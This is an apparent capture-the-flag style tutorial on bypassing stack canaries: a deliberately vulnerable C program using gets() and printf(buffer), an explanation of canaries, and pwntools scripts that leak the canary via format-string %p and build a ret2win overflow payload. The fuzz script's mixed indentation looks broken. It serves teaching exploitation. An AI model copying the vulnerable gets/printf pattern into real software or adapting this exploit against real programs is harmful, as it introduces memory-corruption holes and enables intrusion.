 ```c
#include <stdio.h>
#include <string.h>

void win() {
    puts("Wait, how did you get in here?!");
}

void vuln() {
    char buffer[64];

    puts("You'll never beat my state of the art stack protector!");
    gets(buffer);
    printf(buffer);

    puts("\nWho said gets() is dangerous? Good luck with your BOF attack :P");
    gets(buffer);
}

int main() {
    vuln();
}
```

```bash
gcc prog.c -o prog -fstack-protector-all -no-pie -m32
```

> Note: We don't necessarily have to do this in 32-bit, 64-bit works too.

Stack canaries will check whether the function has been overwritten by placing a value right after the return address of the function. If we want to overwrite the return address, we'd have to overwrite the stack canaries too, and at the end of the function before returning, the program will check if the stack canaries remain the same value or not, if not then it will return an error.

For this challenge, the goal would be to use the `printf` function to leak the value of the stack canary, then use the second `gets` function call to overflow the buffer, overwrite the return value, and make sure to overwrite the stack canary with it's correct value.

We can run a fuzz script to leak the first 100 hex items on the stack:

```python
for i in range(100):
    try:
	    p = process(level='error')
	    
        # Format the counter
        p.sendline('%{}$p'.format(i).encode())
        p.recvline()
        
        # Receive the response
        result = p.recvline().decode()
        
        # If the item from the stack isn't empty, print it
        if result:
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass
```

We want to look for values that are fairly random and ends with `00`. We also should run the script multiple times and look for values that are changes in a random sense. For our case, the 23rd item on the stack seems to be the canary.

We can also look for the canary in `pwndbg` using the `canary` command. It gives us the 23rd element from the stack.

After disassembling the executable with `ghidra`, we can see that right above the `buffer` is the canary, so we overwrite the canary by overflowing the 64 bytes of the buffer then input our overwrite value. And between the return address of the function and the stack canary is another 12 bytes that we need to pad out.

Here's the python script for that:

```python
# Start program
io = start()

offset = 64  # Canary offset

# Leak canary value (23rd on stack)
io.sendlineafter(b'!', '%{}$p'.format(23).encode())
io.recvline()  # Blank line
canary = int(io.recvline().strip(), 16)
info('canary = 0x%x (%d)', canary, canary)

# Build payload (ret2win)
payload = flat([
    b'A' * offset,  # Pad to canary
    canary,  # The leaked canary
    b'A' * 12,  # Pad to ret pointer
    elf.symbols.win  # Return to the win function
])

# Send the payload
io.sendlineafter(b':P', payload)
```